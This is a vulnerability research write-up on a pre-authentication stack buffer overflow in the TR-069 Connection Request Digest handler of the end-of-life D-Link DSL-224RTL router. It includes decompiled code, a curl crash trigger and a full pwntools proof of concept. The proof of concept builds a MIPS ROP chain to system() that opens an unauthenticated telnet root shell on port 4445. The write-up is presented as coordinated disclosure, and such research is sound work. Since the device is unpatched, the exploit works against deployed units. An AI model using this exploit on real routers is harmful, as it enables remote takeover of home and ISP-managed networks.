






## At a Glance

| | |
|---|---|
| **CVE** | CVE Pending |
| **Product** | D-Link DSL-224RTL |
| **Component** | `/sbin/tr069` (TR-069/CWMP handler) |
| **Class** | CWE-121, CWE-787 (Stack-based Buffer Overflow) |
| **Root Cause** | Unchecked `sprintf` into fixed 200-byte stack buffer |
| **Impact** | Pre-auth RCE via network |
| **Affected** | All known firmware versions (2.5.0 – 3.0.10); other D-Link devices sharing the same `/sbin/tr069` binary may also be affected |
| **Fixed** | No patch — EOL device |
| **Severity** | CVSS:3.1 — **8.1 High** (AC:H due to ASLR; see note below) |
| **Disclosure** | Coordinated with D-Link SIRT |
| **Credit** | Harel Yakobovitz |

## Overview

I recently decided to take a deeper look at a router i found at home , D-link DSL-224 RTL .
Although the device reached its End-of-Life (just a few months ago), these ISP-managed appliances remain widely deployed, making their management interfaces a prime target for finding vulnerabilities.


## Extracting the firmware

First, I needed to obtain the router's binaries for further research, which I easily found on D-Link's public FTP server. 



My own router runs firmware version 3.0.5. I initially wanted to emulate the latest firmware version, but the emulation process was a little complicated. Therefore, I chose to start testing directly on my own physical router (not the best practice, I know!) and proceed with my research from there.


I executed `binwalk -e` on the firmware image and successfully extracted the entire SquashFS file system.


## Mapping Attack Surface
I started by running an `nmap` full-port scan to discover accessible remote services. After cross-referencing the results with the router's telnet shell, two services stood out as primary targets for vulnerability analysis:

- `usr/sbin/anweb` (HTTP service on port 80)
- `sbin/tr069` (TR-069 CWMP service on port 8999)

## anweb HTTP Service

The device runs a custom embedded C web server that exposes a JSON-RPC endpoint at `/jsonrpc`. Rather than handling requests directly, the web server acts as a frontend, proxying incoming JSON-RPC commands via internal IPC to a backend daemon named `/resident`, which implements the actual command handlers and core logic.



Opening the `/resident` binary and its associated shared libraries (`.so`) in IDA Pro revealed several command injection vulnerabilities via unvalidated command separators. For example:



In this case, the `(const char*)dest` parameter (configurable directly from the web interface) is passed unsanitized into a system() command. However, a quick review of public advisories showed that command injection vulnerabilities in this web interface are already known, so I chose not to spend further time analyzing the related binaries.


## The /sbin/tr069 Service

The following service implements CWMP (CPE WAN Management Protocol) which lets ISPs remotely manage and configure the router they export.

It establishing a secure outbound connection to the provider's Auto-Configuration Server (ACS) to process remote commands, firmware upgrades, and remote diagnostic scripts.

The client periodically polls the ACS with an Inform request, and if the server has a pending task, it responds with a configuration command.




## CVE (?)
TR-069 defines a second communication channel — the **Connection Request**. This allows the ACS to actively wake up 
the router at any time without waiting for the next Inform cycle.

The router exposes an HTTP listener on `0.0.0.0:8999` specifically for this 
purpose. When the ACS wants to trigger an immediate session, it sends an HTTP 
GET to this port. To prevent unauthorized parties from triggering Connection 
Requests, the router enforces HTTP Digest authentication — the ACS must prove 
its identity using a username and password configured at:

`Advanced → TR-069 → Connection Request Settings` on the web interface , This is standard in any ISP-managed deployment.

The vulnerability lives inside the Digest authentication handler — 
specifically in the function that **validates the ACS's identity**.

This function is responsible for building an MD5 input string for the Digest auth validation. It does this by concatenating various fields from the HTTP `Authorization` header into a fixed-size stack buffer.

```c
char *__fastcall sub_45628C(const char *a1, char *a2, int a3, int a4)
{
  char s[68];        // [sp+18h]
  char src[68];      // [sp+5Ch]
  char dest[200];    // [sp+A0h]  <-- Our target
  int v11;           // [sp+168h]

  memset(s,    0, 0x41);
  memset(src,  0, 0x41);
  memset(dest, 0, sizeof(dest));
  sub_456164(a1, s, a3, v11);
  sub_45605C(a1, src);
  
  sprintf(dest, "%s:%s:", s, a1 + 401);   // nonce - 71 bytes max.

  if (a1[953]) {                          // if "qop" set.
    strcat(dest, a1 + 545);               // nc      — 58 bytes max.
    strcat(dest, ":");
    strcat(dest, a1 + 473);               // cnonce  — 71 bytes max.
    strcat(dest, ":");
    strcat(dest, a1 + 953);               // qop     — return address overwritten
    strcat(dest, ":");
  }
  
  strcat(dest, src);                     
  do_md5_string(dest);
  strcpy(a2, dest);                       
  return a2;

  //nonce + ":"  →  72 bytes  [total:  72]
  //nc    + ":"  →  59 bytes  [total: 131]
  //cnonce+ ":"  →  72 bytes  [total: 203] ← dest[200] exceeded here
  //qop          →   4 bytes  → lands on return address overflow
}
```

as you can see the above calculation . the buffer overflow is indeed triggered correctly , afterwards i tested it with simple curl command.
```sh
curl -v -H "Authorization: Digest username=\"some\", realm=\"CPE\", nonce=\"A*72\", uri=\"/\", cnonce=\"B*72\", nc=C*59, qop=AAAA, response=\"x\"" http://192.168.1.1:8999/

```


It Worked ! now we control the return address ( the $ra register on MIPS)

## Static Analysis



As shown by `checksec`, the `tr069` binary (MIPS 32 big-endian) lacks any security mitigations
Despite the complete lack of binary mitigations, getting a shell proved more challenging than expected.
## Determining Exploitability
We Have stack buffer overflow vulnerability but with few obstacles on the way.

1. **Null-Byte Restrictions (`strcat`):** The vulnerability resides within `strcat()`, which terminates string when encountring null byte (`\x00`). Consequently, the payload must be entirely null-free.
2. **Strict Size Limitations:** The `qop` field is capped at 32 bytes, limiting the total payload to 235 bytes. 
Plus, the intermediate delimiters (`strcat(dest, ":")`) added between auth headers.which may make it difficult for building shellcode.
3. **MIPS Delay Slots:** - We needs to keep in mind Delay-slots feature on mips, whenever a jump or branch instruction is executed , the CPU execute the next instruction before the jump(the first instruction) actually takes place, We will dive into how this impact our final exploit soon.


## Exploitation

Now let's get to the real work.

Since the vulnerability is remotely exploitable, any shell we spawn will have
its I/O attached to the server process rather than our socket. To get an
interactive shell, we need to redirect `stdin`/`stdout`/`stderr` to the
socket's file descriptor using `dup2(sockfd, 0/1/2)` — or alternatively,
bind a new listening port and connect back.

Searching for a `dup2()` ROP gadget with controllable arguments turned up
nothing in the binary.

Writing inline MIPS shellcode that calls `dup2` directly was an option, but
I wanted to build a full ROP chain — both for the challenge and as best
practice.

Our MIPS binary uses a version of Libc Called LibuClibc , this is the binary we will search for rops on it.


**Finding Gadgets & Troubleshooting Them** 

I Found the Perfect one-gadget for our exploit:

```c

0xB530: lw t9,0(sp); lw a0,4(sp); jalr t9; nop // stack-based call trampoline 

//0xB530: lw t9, 0(sp)   ; function to call       ← loaded from stack
//        lw a0, 4(sp)   ; first argument (a0)     ← loaded from stack  
//        jalr t9        ; call t9, $ra = return address
//        nop            ; delay slot — executes before the jump .

```
We’ll use system() to execute a command of our choosing — specifically `/bin/busybox telnetd -p4445 -l/bin/sh`, which spawns a telnet shell on port `4445` with no authentication required.

For that, the stack needs to look like this:



You might be wondering where the command string `/bin/busybox telnetd -p4445 -l/bin/sh` actually lives in memory — we need a valid pointer to it. The answer is that we supply it ourselves, embedded directly in the request.

My first attempt was to place the string inside one of the existing HTTP header fields — nc, nonce, cnonce, and so on — and then calculate its address.

uClibc’s `system()` uses `vfork()`, which suspends the parent and runs the child on the same physical stack. Before exec() is called, the child’s own setup overwrites the stack, corrupting the command string in the process.

After debugging with `GDB`, I identified exactly which stack regions get overwritten by the child process. One field survived intact — the `Digest username=` header value. Since it lands in a stable, non-clobbered memory region, we can place our command string there and use its address as `$a0` for the `system()` call.

## Handling Absolute Offsets
While some versions of this device ship without ASLR, my unit had it enabled. For the purpose of this research I disabled it, which allowed me to work with static base addresses derived directly from /proc/<pid>/maps.

A production exploit would require a separate information leak to bypass ASLR — that’s intentionally out of scope here, though there are a few interesting places worth digging into for a future research.

## Final PoC
With all the addresses resolved on the ASLR-disabled device, I assembled the final PoC exactly as described above:

```python
from pwn import *

context.os     = 'linux'
context.bits   = 32
context.arch   = 'mips'
context.endian = 'big'
context.log_level = 'info'

HOST = '192.168.1.1'
PORT = 8999

# Base address of uClibc — derived from /proc/<pid>/maps (ASLR disabled)
LIBC      = 0x2AB5F000

# Gadget
TRAMP     = LIBC + 0x0B530

# System address inside uClibc
SYSTEM    = LIBC + 0x05BAB0

# address of username=
CMD_ADDR = 0x7fff62d4

USERNAME  = '/bin/busybox telnetd -p4445 -l/bin/sh'

# Padding
nonce  = 'A' * 71
cnonce = 'B' * 71
nc     = 'C' * 58

# full rop
qop    = (p32(TRAMP) + p32(SYSTEM) + p32(CMD_ADDR) + b'X').decode('latin1')

auth = (
    f'Digest username="{USERNAME}", '
    'realm="CPE", '
    f'nonce="{nonce}", '
    'uri="/", '
    'response="x", '
    f'cnonce="{cnonce}", '
    f'nc={nc}, '
    f'qop={qop}'
)

payload = (
    'GET / HTTP/1.1\r\n'
    f'Host: {HOST}:{PORT}\r\n'
    f'Authorization: {auth}\r\n'
    '\r\n'
)

io = remote(HOST, PORT)
io.send(payload.encode('latin1'))

shell = remote(HOST,4445)
shell.interactive()

```

## Demonstration



## Disclosure Timeline

- **2026-10-10** — Vulnerability discovered
- **2026-11-01** — D-Link SIRT notified
- **2026-11-03** — D-Link confirmed EOL, no patch planned (SAP10519)
- **2026-11-04** — VulnCheck notified
- **2026-11-17** — VulnCheck confirmed valid finding, CVE pending
- **2026-11-?**  — Public disclosure
